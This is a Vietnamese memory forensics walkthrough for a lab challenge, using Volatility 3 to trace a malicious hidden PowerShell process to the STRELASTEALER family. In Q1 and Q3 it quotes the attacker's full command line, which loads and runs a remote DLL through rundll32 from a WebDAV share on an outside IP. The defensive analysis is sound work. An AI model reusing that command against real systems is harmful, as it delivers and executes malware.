 # First to this challenge

- Ở trong bài này, họ yêu cầu ta sử dụng kiến thức về vola và memory forensics để tìm ra các đáp án.

# Head to challenge
## Q1

![image](https://github.com/user-attachments/assets/6a71cdbe-b66a-4f01-ad80-930c2ab1aec7)

### Analysis

Họ yêu cầu ta phải tìm ra malicious process và tên của nó, ở trong volatility 3 có 1 plugin tên là windows.pslist, nó dùng để list ra các process đang chạy. Lúc này ta sẽ dựa vào nó để tìm ra.

#### Walkthrough

``` 3692    4120    powershell.exe  0xc90c0358b080  17      -       1       False   2024-07-15 07:00:03.000000 UTC  N/A     Disabled ```

Ở đây, sau khi xem qua, mình thấy rằng có một chút vấn đề về process của powershell, 1 process về terminal và command đáng nhẽ sẽ phải có thời gian ngừng lại, vậy nhưng powershell thì không, nó luôn chạy ngầm trong máy và có đến 17 threads đang chạy, tức là nó đang dùng tài nguyên của máy.

Để tiếp tục hiểu rõ hơn, mình sử dụng tiếp plugin của vol3 là cmdline để list ra các powershell commandline mà process đang chạy

``` 3692    powershell.exe  powershell.exe  -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry ```

Lúc này, mình có thể confirm 100% đây là malicious activity. Vì mình có thể thấy rằng, attacker đang sử dụng powershell để map một IP nào đó và chạy dll32 để bypass lớp bảo vệ và tải về dll sus là 3435.dll và còn đang chạy hidden để cho không ai phát hiện.

-> Đáp án: powershell.exe

## Q2

![image](https://github.com/user-attachments/assets/54b94c98-794e-4b7b-af5a-ef5a3d9711f2)

### Walkthrough

Vì mình đã tìm được process của malicious process trước, nên mình đã biết được rằng PPID của powershell.exe là 4120

## Q3

![image](https://github.com/user-attachments/assets/b613611d-d695-4757-871f-377b2ed159bc)

### Analysis

Tiếp tục với câu 1, ở câu này, mình phải đi tìm file name được sử dụng bởi malware thực thi payload tiếp theo sau khi đã tấn công qua câu lệnh powershell ở trên câu 1

#### Walkthrough

``` 3692    powershell.exe  powershell.exe  -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry ```

Giống như câu 1, mình tìm ra rằng attacker đang dùng rundll32 để chạy 3435.dll, một dynamic linked library đã được map bằng một IP lạ và 8888 cũng không phải là port default, nên ta có thể xác định đây là 1 IP sú.

## Q4

![image](https://github.com/user-attachments/assets/dc16bbab-57a2-4b68-ac82-ab84e9d438f3)

### Walkthrough

Tiếp tục với powershell script ở các câu trước, mình có thể chỉ ra rằng shared directory là davwwwroot

## Q5

![image](https://github.com/user-attachments/assets/aae22828-8e88-43ad-a649-1db6bc9bae79)

### Walkthrough

Sau khi google một khoảng thời gian, mình tìm ra được sub-technique ở đây là System Binary Proxy Execution: Rundll32, MITRE ID là T1218.011

Để hiểu hơn thì, Attacker có thể trigger rundll32.exe, đây là 1 chương trình giúp thực thi các file dll trên windows và sẽ có thể bypass các trình duyệt virus vì đây là 1 default process của windows và để sử dụng nó thì tức là bạn đã có full permissions của windows. Nên điều này có thể trigger các trình duyệt virus để bypass nó.

Để trigger Rundll32.exe, ta có ví dụ là **rundll32.exe {DLLname, DLLfunction}**

## Q6

![image](https://github.com/user-attachments/assets/78bf5696-72cb-4c04-946c-f2c2617f94c9)

### Walkthrough

Ở đây, ta phải tìm username. Trong vol3 có 1 plugin giúp ta tìm ra các thông tin cơ bản của các process như username, các directory đi kèm và root folder của process đó.

Từ câu 1, ta biết rằng malicious process là powershell, vì vậy nên giờ ta chỉ cần dùng cmdline như sau:

``` python3 volatility3/vol.py -f 192-Reveal.dmp windows.envars | grep powershell.exe ```

Và ta sẽ tìm được ``` 3692    powershell.exe  0x1cb6aa61f90   USERNAME        Elon  ```

Vậy, username ở đây là Elon

## Q7

![image](https://github.com/user-attachments/assets/6fd3777b-57a9-43a4-b0cf-7fbc1262d240)

### Walkthrough

Vẫn tiếp tục là powershell script từ câu 1, như mình đã đề cập tới, có 1 IP lạ đã xuất hiện và đóng vai trò như là 1 website để cho rundll32 có thể map đến đó và run 3435.dll

Sử dụng virustotal để kiểm tra thử

![image](https://github.com/user-attachments/assets/2e61354f-eb37-47ef-9140-eedc8cc46175)

Activity related to STRELASTEALER. Vậy, ta biết được rằng malware family ở đây thuộc về STRELASTEALER.

STRELASTEALER là một họ malware được sử dụng để đánh cắp dữ liệu email từ các trình gửi email nổi tiếng và sẽ gửi nó về C2 server của attacker.
